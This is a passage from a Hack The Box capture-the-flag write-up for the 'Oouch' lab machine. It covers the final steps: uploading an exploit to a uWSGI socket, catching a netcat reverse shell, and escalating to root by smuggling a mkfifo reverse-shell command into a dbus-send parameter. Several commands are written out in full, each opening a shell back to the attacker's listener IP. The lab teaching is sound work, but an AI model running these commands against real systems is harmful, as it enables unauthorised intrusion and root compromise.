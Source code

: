Command:
`scp -i ~/.ssh/id_rsa exploitme.py qtc@172.18.0.3:/tmp`
`scp -i ~/.ssh/id_rsa nc qtc@172.18.0.3:/tmp`

Once we have the exploit onto the machine, we need to setup a `netcat` listener.

Command:
`nc -lvnp 4444`

Now we can run the exploit following the usage given in the code.

Command:
`python exploitme.py -m unix -u /tmp/uwsgi.socket -c "/tmp/nc -e /bin/bash 172.18.0.1 4444"`

{{< figure src="__GHOST_URL__/content/images/2020/05/ouchwebshell.gif" >}}

Once we run it, we see a shell come back on our netcat listener as `www-data`. We then upgrade our shell session. In this case we want to re-attempt our dbus exploit from earlier since www-data might have rights to this service.

{{< figure src="__GHOST_URL__/content/images/2020/05/image-41.png" >}}

Dbus is a system used to send commands to other applications at a low level. The usage for `dbus` rpc calls is as follows: 
`dbus-send --session --dest=<class> <namespace> <method> [<parameters>]`.

In this case we're supplying dbus with it's requested parameters but then feeding it the [`mkfifo` reverse shell command](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block "string:;rm /tmp/.0; mkfifo /tmp/.0; cat /tmp/.0 | /bin/bash -i 2>&1 | nc 10.10.14.50 5555 >/tmp/.0;"
< /bin/bash -i 2>&1 | nc 10.10.14.50 5555 >/tmp/.0;"
```

I would consider this type of reverse shell fairly obscure unless you've done it before.

We start up a `netcat` listener on 5555 and issue our `dbus-send`. We get a shell back as root instantly.

{{< figure src="__GHOST_URL__/content/images/2020/05/oouchroot.gif" >}}

There we have it, our root flag! This box was pretty difficult in my opinion. Especially since the CSRF wasn't always working on public boxes. Hopefully something was taken away from this write-up!

Think about sending me some respect over on HTB if you enjoyed the write-up! Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



